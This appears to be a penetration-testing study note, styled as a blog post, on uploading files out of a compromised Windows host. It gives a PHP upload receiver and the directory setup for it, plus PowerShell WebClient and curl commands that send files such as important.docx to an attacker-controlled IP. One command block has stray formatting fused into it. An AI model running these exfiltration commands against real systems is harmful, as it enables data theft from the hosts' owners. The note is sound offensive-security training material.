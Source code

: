 ```yaml
---
description: >-
  Uploads Using Windows Scripting Languages
title: Uploads Using Windows Scripting Languages              # Add title here
date: 2022-11-17 08:00:00 -0600                           # Change the date to match completion date
categories: [03 File Transfer, Uploads Using Windows Scripting Languages]                     # Change Templates to Writeup
tags: [file transfer, scripting language upload]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

In certain scenarios, we may need to exfiltrate data from a target network using a Windows client. This can be complex since standard TFTP, FTP, and HTTP servers are rarely enabled on Windows by default.

Fortunately, if outbound HTTP traffic is allowed, we can use the System.Net.WebClient PowerShell class to upload data to our Kali machine through an HTTP POST request.

To do this, we can create the following PHP script and save it as upload.php in our Kali webroot directory, /var/www/html:

```php
<?php  
$target_dir = "uploads/";  
$target_file = $target_dir . basename($_FILES["targetfile"]["name"]);  
move_uploaded_file($_FILES["targetfile"]["tmp_name"], $target_file)  
?>
```

The PHP code will process an incoming file upload request and save the transferred data to the /var/www/uploads/ directory.

Next, we must create the uploads folder and modify its permissions, granting the www-data user ownership and subsequent write permissions:

```bash
mkdir /var/www/html/web/uploads**# Configuring Directory Ownership with 'www-data' User**  
chown www-data:www-data /var/www/html/web/uploads**# Configuring Directory with Write Permissions**  
chmod 766 /var/www/html/web/uploads
```

Note that this would allow anyone interacting with uploads.php to upload files to our Kali virtual machine.

With Apache and the PHP script ready to receive our file, we move to the compromised Windows host and invoke the UploadFile method from the System.Net.WebClient class to upload the document we want to exfiltrate, in this case, a file named important.docx:

```powershell
C:\Users\Offsec> powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

It is also possible to upload it with curl:

```powershell
curl -H Content-Type:"multipart/form-data" --form targetfile=@"c:\Users\ted\system" -X POST -v http://192.168.119.197/uploads/upload.php
```

After execution of the powershell command, we can verify the successful transfer of the file:

```bash
kali@kali:/var/www/uploads$ ls -la
total 360
drwxr-xr-x 2 www-data www-data   4096 Feb  2 00:38 .
drwxr-xr-x 4 root     root       4096 Feb  2 00:33 ..
-rw-r--r-- 1 www-data www-data 359250 Feb  2 00:38 important.docx
```